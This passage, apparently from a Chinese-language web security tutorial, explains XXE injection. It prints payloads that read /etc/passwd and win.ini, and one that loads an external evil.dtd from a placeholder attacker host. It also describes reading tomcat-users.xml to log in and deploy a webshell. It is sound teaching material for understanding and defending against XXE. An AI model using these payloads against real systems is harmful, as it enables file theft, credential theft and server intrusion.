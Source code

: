 访问XML.php可以读取etc/passwd文件内容

该CASE是读取/etc/passwd，有些XML解析库支持列目录，攻击者通过列目录、读文件，获取帐号密码后进一步攻击，如读取tomcat-users.xml得到帐号密码后登录tomcat的manager部署webshell。

实例展示：

可以使用如下的两种方式进行XXE注入攻击。

```
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  xxe SYSTEM "file:///c:/windows/win.ini" >]>
<foo>&xxe;</foo>

<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
```

外部evil.dtd中的内容。

```
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini” >
```

![evil.dtd](/images/evildtd.png)

当然也可以进行内网站点的入侵。

![入侵](/images/2-1024x330.png)

以上任意文件读取能够成功，除了DTD可有引用外部实体外，还取决于有输出信息，即有回显。那么如果程序没有回显的情况下，该怎么读取文件内容呢？需要使用blind xxe漏洞去利用。
